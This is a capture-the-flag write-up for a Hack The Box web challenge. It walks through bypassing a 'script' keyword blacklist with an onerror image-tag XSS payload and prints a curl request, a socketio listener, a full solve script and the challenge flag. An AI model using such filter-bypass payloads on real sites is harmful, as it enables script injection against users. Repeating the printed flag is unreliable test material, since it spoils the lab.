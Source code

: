 # HTB Challenges | SpookTastic - WEB (VERY EASY)

This challenge involved leveraging a XSS vulnerability in the email field which triggers a bot to emit the flag using socketio.

## Initial Analysis
Looking through `app.py` we spot a few interesting things:
- In `blacklist_pass`, the keyword `script` is used as a blacklisted string
- The bot will emit the flag using `socketio`
- The endpoint `/api/register` will register a user and start the bot, which will call `send_flag` after clicking the alert box

Putting these pieces together, the plan is to leverage the XSS vulnerability to generate an alert box. Since `script` is being blacklisted, we can get around that by using any of the event handler attributes such as `onerror`. Finally we need to make sure that there is a listener for the emitted flag.

## Exploitation
First start a listener to connect and listen for the flag.

``` python
import socketio

sio = socketio.Client()

@sio.event
def connect():
    print('Connected to server')

@sio.on('flag')
def on_flag(data):
    print('Received flag:', data['flag'])

sio.connect('http://94.237.49.212:44715')

# Keep connection alive
sio.wait()
```

Next send the XSS payload by registering an email.

``` bash
$ curl http://94.237.49.212:44715/api/register \
    -X POST \
    -d '{"email": "<img src=\"#\" onerror=\"alert(0)\""}' \
    -H "Content-Type: application/json"

{"success":true}
```

Now check back with the socketio listener.

``` bash
$ python3 socket-listener

Connected to server
Received flag: HTB{al3rt5_c4n_4nd_w1l1_c4us3_jumpsc4r35!!}
```

## Solve Script

``` python
import socketio
import requests

HOST = '94.237.49.212:44715'
sio = socketio.Client()

@sio.event
def connect():
    print('Connected to server')

@sio.on('flag')
def on_flag(data):
    print('Received flag:', data['flag'])
    sio.disconnect()

def main():
    sio.connect(f'http://{HOST}')

    xss_payload = '<img src="#" onerror="alert(0)"'
    resp = requests.post(f'http://{HOST}/api/register', json={'email': xss_payload})

    sio.wait() # keep the connection alive

if __name__ == '__main__':
    main()
```